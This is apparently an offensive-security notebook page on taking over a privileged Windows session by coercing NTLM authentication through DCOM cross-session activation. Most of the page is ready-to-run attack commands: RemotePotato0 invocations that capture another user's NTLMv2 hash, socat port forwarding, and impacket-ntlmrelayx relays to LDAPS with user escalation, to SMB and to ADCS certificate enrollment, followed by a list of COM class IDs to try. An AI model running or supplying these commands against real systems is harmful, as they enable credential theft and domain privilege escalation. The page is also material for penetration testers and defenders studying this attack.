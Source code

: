 ```yaml
---
title: NTLM Relay from DCOM
---
```


If you have unprivileged access to a computer where a privileged user is logged in, you can take over that user by [[notes/ad/ntlm-relay-source|coercing NTLM authentication]] trough [[notes/network/dcom]] cross-session activation.
This is often exploitable on terminal servers.

# Attack 1: Capture

Capture the NTLMv2 response of another session.

On outdated systems, primarily Windows Server 2008, no additional requirements must be satisfied.

=== "[[notes/tools/remotepotato0]]"
    ~~~
    PS C:\Users\jane> query session
    SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
    services                                    0  Disc
                    johnadm                     3  Disc
    >console           jane                     4  Active
    rdp-tcp                                 65536  Listen
    PS C:\Users\jane>.\RemotePotato0.exe -m 2 -s 3 -c '{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}'
    ...
    NTLMv2 Hash     : johnadm::CORP:8d9d...
    ~~~

The attack still works on modern systems, but you need control over a second system which accepts TCP connections on port 135 and forwards them back to an arbitrary port on the first system (port 9999 in the example).

=== "[[notes/tools/remotepotato0]]"
    ~~~ bash
    # 172.30.253.1 aka the second system
    socat -dd tcp-listen:135,fork,reuseaddr tcp:172.30.253.2:9999
    ~~~

    ~~~ powershell
    # 172.30.253.2 aka the first system
    .\RemotePotato0.exe -m 2 -s 3 -c '{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}' -x 172.30.253.1 -p 9999
    ~~~

References:

- [BlueHat IL 2022 - Antonio Cocomazzi & Andrea Pierini - Relaying to greatness](https://www.youtube.com/watch?v=vfb-bH_HaW4)

# Attack 2: Relay

Abuse DCOM to coerce NTLM authentication from a privileged session on the current system (pink) over MSRPC to a second system (green) which forwards the raw TCP connection back to the first system from where it is relayed over HTTP back to the second system and on to the final target.

![Relaying with [[notes/tools/remotepotato0]]](./ntlm-relay-remotepotato0.png)

List sessions on the current system (`172.30.253.2`).

~~~
PS C:\Users\jane> query session
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
                   johnadm                   3  Disc
>console           jane                      4  Active
 rdp-tcp                                 65536  Listen
~~~

Forward MSRPC connections from the second system (`172.30.253.1:135`) back to the first (`172.30.253.2:9999`).

~~~ bash
socat -dd tcp-listen:135,fork,reuseaddr tcp:172.30.253.2:9999
~~~

Relay HTTP from the second system (`172.30.253.1:80`) to the final target.
The connection to the final target can be over [[notes/ad/ntlm-relay-to-smb|SMB]] or [[notes/ad/ntlm-relay-to-http|HTTP]].
If you are coercing authentication on a system without the October 2022 patch the target can be [[notes/ad/ntlm-relay-to-ldap|LDAP]] as well ([source](https://twitter.com/_Imm0/status/1595131175260942336), [source](https://twitter.com/decoder_it/status/1744432137397211624)).

=== "LDAP"
    ~~~ bash
    impacket-ntlmrelayx -debug --no-smb-server --no-raw-server --no-wcf-server -smb2support --http-port 80 -t ldaps://dc01.corp.local --escalate-user jane
    ~~~

=== "SMB"
    ~~~ bash
    impacket-ntlmrelayx -debug --no-smb-server --no-raw-server --no-wcf-server -smb2support --http-port 80 -t smb://srv01.corp.local
    ~~~

=== "ADCS Web Enrollment"
    ~~~ bash
    impacket-ntlmrelayx -debug --no-smb-server --no-raw-server --no-wcf-server -smb2support --http-port 80 -t http://ca01.corp.local --adcs --template User
    ~~~

Coerce NTLM authentication from the current system to `172.30.253.1:135` on the second system.
Then relay the MSRPC connection coming in from the second system on `172.30.253.2:9999` back over HTTP to `172.30.253.1:80` were `impacket-ntlmrelayx` is running.

=== "[[notes/tools/remotepotato0]]"
    ~~~ bat
    .\RemotePotato0.exe -m 0 -s 3 -c '{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}' -x 172.30.253.1 -p 9999 -r 172.30.253.1 -t 80
    ~~~

Other tools:

- [SharpDcomTrigger](https://github.com/cube0x0/SharpSystemTriggers/tree/main/SharpDcomTrigger), seems patched

References:

- [BlueHat IL 2022 - Antonio Cocomazzi & Andrea Pierini - Relaying to greatness](https://www.youtube.com/watch?v=vfb-bH_HaW4)

# COM Class IDs

Depending on the Windows version you have to try different class IDs.

~~~
{5167B42F-C111-47A1-ACC4-8EABE61B0B54}
{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
{854A20FB-2D44-457D-992F-EF13785D2B51}
~~~
